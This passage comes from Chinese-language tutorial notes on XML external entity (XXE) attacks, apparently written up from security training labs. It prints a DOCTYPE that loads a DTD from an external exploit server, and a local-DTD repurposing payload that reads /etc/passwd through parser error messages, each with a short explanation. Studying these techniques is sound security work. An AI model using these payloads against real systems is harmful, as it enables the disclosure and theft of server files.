 ```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a10000c03cb9a04c0c590d401bd00c7.exploit-server.net/exploit.dtd"> %xxe;]>
```
因为路径错误最终会将整个路径作为错误信息返回,其中则包含了`%file`实体的内容.  
![](2022-11-01-15-26-49.png)
### 滥用本地DTD
报错和OOB通道都是利用的外部DTD文件,但如果只能使用内部DTD的话,则无法进行利用,因为在外部DTD中,是可以在参数实体中嵌套其它参数实体的,而在内部实体中则无法进行嵌套.  
然而当一个DTD文件中同时存在内部DTD和外部DTD声明时,那么内部的DTD是可以重新定义外部DTD中的实体的.那么则可以通过滥用一些本地的DTD来触发错误解析得到敏感数据.

1. 假设本地存在一个dtd文件,其中定义了一个ISOamso实体.
2. 插入如下payload

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```  
通过在payload中的内部DTD重新定义外部docbookx.dtd中的ISOamso实体,将其定义为报错回显的payload,那么在加载本地docbookx.dtd中的ISOamso时同样会触发路径错误从而暴露错误信息得到敏感数据.   